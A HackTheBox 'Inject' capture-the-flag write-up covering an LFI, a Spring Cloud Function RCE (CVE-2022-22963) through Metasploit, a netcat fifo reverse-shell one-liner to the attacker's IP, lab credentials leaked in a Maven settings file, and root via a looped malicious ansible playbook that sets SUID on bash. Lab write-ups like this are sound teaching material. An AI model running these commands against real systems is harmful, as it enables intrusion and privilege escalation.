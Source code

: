 ```yaml
---
layout: single
title: Inject hackthebox writeup
excerpt: "Easy linux machine in which we exploit a CVE found plaintext credentials adn privesc with ansible"
date: 2023-04-07
classes: wide
header:
  teaser: /assets/images/inject/inject_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - cron
  - ansible
  - LFI
  - RCE
---
```


![](/assets/images/inject/inject.png)

## User Flag

```shell
$ nmap -sS -n -Pn -p- -vv -min-rate 5000 -oN allports 10.10.11.204
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```

A webpage is exposed on port 8080, it lets us upload images and see them afterward. It may seem the foothold is to inject some malicious image however is simpler than that. The GET parameter img is vulnerable to LFI. You can even see the folders with this LFI so it is as if you were in a terminal with `ls` and `cd`.

By looking around the webpage file I found `pom.xml` which contained information about dependencies.

```shell
GET /show_image?img=../../../pom.xml
```

```xml
		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
```

In this type of scenario, the best thing to do is look for a CVE. In this case, this version of spring cloud is vulnerable to RCE.

In my case, I'm using metasploit to create another reverse shell (I don't like metasploit shell)

```shell
$ msfconsole -q
msf6 > search CVE-2022-22963

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  exploit/multi/http/spring_cloud_function_spel_injection  2022-03-29       excellent  Yes    Spring Cloud Function SpEL Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/spring_cloud_function_spel_injection

msf6 > use 0
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set LHOST tun0
LHOST => 10.10.14.16
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set RHOSTS 10.10.11.204
RHOSTS => 10.10.11.204
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.11.204:41376) at 2023-04-07 10:05:10 +0200
meterpreter > shell
Process 14921 created.
Channel 1 created.
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 7777 >/tmp/f
rm: cannot remove '/tmp/f': No such file or directory
^Z
Background channel 1? [y/N]  y
```

Now on the other terminal, I do the usual tty improvement
```shell
[dasor@archlinux ~]$ nc -lvp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.204 34676
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
frank@inject:/$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777
                              script /dev/null -c bash
Script started, file is /dev/null
frank@inject:/$ export TERM=xterm
frank@inject:/$ stty rows 30 columns 132
frank@inject:/$
```

Perfect now I have a comfortable workspace to continue.

The user we are logged in as doesn't have the user flag however, there is one more user called Phil.

```shell
frank@inject:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

And after some time searching for a way to privesc, I found Phil's credentials in Frank's home directory

```shell
frank@inject:~$ ls -la
total 32
drwxr-xr-x 6 frank frank 4096 Apr  7 07:33 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
drwxr-xr-x 3 frank frank 4096 Apr  7 07:33 .ansible
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
frank@inject:~$ cd .m2/
frank@inject:~/.m2$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

## Root flag

Now, this part is pretty straightforward. When looking through the file system earlier I found ansible directories. To see if any ansible playbook was getting executed I used pspy.

```shell
phil@inject:/dev/shm$ wget 10.10.14.16:8000/pspy64
--2023-04-07 08:16:02--  http://10.10.14.16:8000/pspy64
Connecting to 10.10.14.16:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                           100%[==========================================================>]   2.94M  1.17MB/s    in 2.5s

2023-04-07 08:16:05 (1.17 MB/s) - ‘pspy64’ saved [3078592/3078592]
phil@inject:/dev/shm$ chmod a+x pspy64
phil@inject:/dev/shm$ ./pspy64
```

```shell
2023/04/07 08:38:01 CMD: UID=0    PID=67688  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
...
2023/04/07 08:38:01 CMD: UID=0    PID=67689  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

As seen here a cron job is deleting everything in the /opt/automation/tasks and then running (as root) everything with the yml extension on that directory. So if we manage to get root to execute a malicious ansible playbook we can privesc. That can easily be done with a bash script like this.

```shell
#!/bin/bash
while true
do
        cp /dev/shm/test.yml /opt/automation/tasks/
done
```
with `test.yml` being

```yaml
- hosts: localhost
  tasks:
  - name: privesc
    ansible.builtin.shell: chmod u+s /bin/bash
```

Once executed for a while

```shell
phil@inject:/dev/shm$ ./exp.sh
^C
phil@inject:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
phil@inject:/dev/shm$ bash -p
bash-5.0# whoami
root
```
